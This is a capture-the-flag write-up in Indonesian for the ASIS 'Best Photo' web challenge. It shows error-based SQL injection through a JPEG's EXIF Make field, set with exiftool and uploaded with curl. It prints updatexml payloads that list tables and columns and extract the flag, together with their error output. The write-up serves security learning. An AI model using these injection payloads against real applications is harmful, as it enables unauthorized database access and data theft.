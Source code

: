# Best Photo

**Kategori:** web
**Points:** 175
**Deskripsi**

> Go [there](http://bestphoto.asis-ctf.ir/index) and find the flag.

## Write-up

Karena kita cuma bisa mengupload file, dan akan tampil informasi EXIF-nya, maka pasti ini adalah SQL Injection
dengan EXIF metadata.

Cara saya mengeksploit adalah dengan:

    exiftool -Make="'+updatexml(null,(select version()), null) ) -- '" empty.jpg;
    curl -F file=@empty.jpg "http://bestphoto.asis-ctf.ir/submit"

File empty.jpg diciptakan dengan (hanya 160 byte):

    convert -size 1x1 xc:none empty.jpg

Dengan mengganti 'select version()' dengan query lain kita bisa tahu apa nama tabel.


    (concat('.', (SELECT group_concat(table_name separator '|') FROM information_schema.tables WHERE table_schema='photo')))

    XPATH syntax error: 'photos_extratext|tbl_flag_000'

Kolom

    (concat('.', (SELECT group_concat(column_name separator '|') FROM information_schema.columns WHERE table_name='tbl_flag_000')))

     XPATH syntax error: 'id|flag'yohanes@olivia:~$

Dan isinya:

    (concat('.', (SELECT group_concat(concat(id, ' - ', flag) separator '|') FROM tbl_flag_000)))

    XPATH syntax error: '1 - ASIS{908cd5cf7e6f337d232370c'

Bagian kedua flag:

    (concat('.', (SELECT group_concat(concat(id, ' - ', right(flag,11)) separator '|') FROM tbl_flag_000)))

    XPATH syntax error: '1 - ce7e0fd937}'yohanes@olivia:~$


Flagnya: `ASIS{908cd5cf7e6f337d232370ce7e0fd937}`

